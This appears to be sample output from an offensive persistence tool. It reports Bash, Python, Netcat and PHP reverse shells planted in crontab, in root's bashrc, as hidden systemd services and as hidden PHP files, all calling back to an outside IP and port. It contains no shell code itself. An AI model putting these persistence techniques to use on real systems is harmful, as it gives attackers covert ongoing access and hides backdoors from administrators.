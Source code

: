 ```
[+] Bash reverse shell loaded in crontab                  
[+] Python reverse shell loaded in crontab                
[+] Python3 reverse shell loaded in crontab                                                                          
[+] Netcat reverse shell loaded in crontab                
[+] Bash reverse shell loaded in root's bashrc
[+] Python reverse shell loaded in root's bashrc          
[+] Python3 reverse shell loaded in root's bashrc         
[+] Netcat reverse shell loaded in root's bashrc
[+] Bash reverse shell installed as a service at /etc/systemd/system/.IJiqS5NyxY.service
[+] Python reverse shell installed as a service at /etc/systemd/system/.IJkJpelV9v.service
[+] Python3 reverse shell installed as a service at /etc/systemd/system/.EcPVhM7nnr.service
[+] Netcat reverse shell installed as a service at /etc/systemd/system/.moZEAdmDHm.service
[+] PHP reverse shell placed in /var/www/.2efLmfqWTF.php
[+] PHP reverse shell placed in /var/www/html/.Hh9q2kl5Gt.php
...

[+] All shells call back to 10.2.14.14:5253
```